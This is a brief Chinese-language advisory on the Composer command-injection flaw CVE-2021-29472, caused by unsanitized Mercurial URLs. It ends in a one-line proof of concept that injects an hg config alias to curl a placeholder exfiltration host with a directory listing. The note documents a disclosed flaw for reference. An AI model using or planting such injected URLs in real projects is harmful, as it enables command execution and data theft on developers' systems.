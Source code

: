 # PHP Composer命令注入漏洞（CVE-2021-29472）


Composer是PHP的一个依赖管理器工具，它使用在线服务Packagist来确定软件包下载的正确供应链。据估计，Packagist基础设施每月大约为14亿个下载请求提供服务。由于Root composer.json文件中的Mercurial库的URL和包源下载的URL没有被正确清理，这将导致攻击者注入的参数被解释为Composer执行的系统命令的选项。如果系统中安装了hg/Mercurial，则恶意制作的URL值将导致代码在HgDriver中被执行。

详细分析可以见：https://blog.sonarsource.com/php-supply-chain-attack-on-composer

PoC：


```
--config=alias.identify=!curl http://exfiltration-host.tld --data “$(ls -alh)”

```

ref：

* https://blog.sonarsource.com/php-supply-chain-attack-on-composer
* https://nvd.nist.gov/vuln/detail/CVE-2021-29472